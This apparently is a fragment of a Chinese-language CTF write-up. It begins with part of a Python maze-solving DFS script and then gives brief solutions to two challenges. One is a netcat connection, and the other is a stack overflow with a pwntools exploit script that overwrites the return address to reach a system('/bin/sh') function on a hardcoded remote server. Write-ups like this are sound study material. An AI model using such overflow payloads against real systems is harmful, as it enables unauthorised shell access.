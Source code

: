 ```python
				if tpp == mx:
					opts.append(op[i])
					tpp = tpp &#43; 1
					mx = mx &#43; 1
				else:
					opts[tpp] = op[i]
					tpp = tpp &#43; 1
				dfs(dx, dy)
				tpp = tpp - 1
		if flag == 1:
			return
	vis[x][y] = 0

for i in range(0, n):
	a.append([])
	vis.append([])
	st = p.recvline(keepends = True)
	dat = st.decode()
	for j in range(0, m):
		if dat[j] == &#39;#&#39;:
			a[i].append(1)
		else:
			a[i].append(0)
		vis[i].append(0)

st = p.recvline(keepends = True)
st = p.recvline(keepends = True)
st = p.recvline(keepends = True)

dfs(0, 0)
```



### 0x01 让我康康你的Nc

​	安装netcat，按题目方式连接之后cat flag即可得到结果。

### 0x02 网安的第一口饭

​	简单栈溢出。反编译看到有一个here(void)调用了system(&#34;/bin/sh&#34;)，也就是说只要调用该程序便能获得类似shell的东西，可以直接cat flag。

​	

```python
from pwn import *

p = remote(&#39;111.200.241.244&#39;, 59471)
p.recv()
payload = b&#39;a&#39; * 12 &#43; p64(0x4011F5)
p.send(payload)
p.interactive()
```
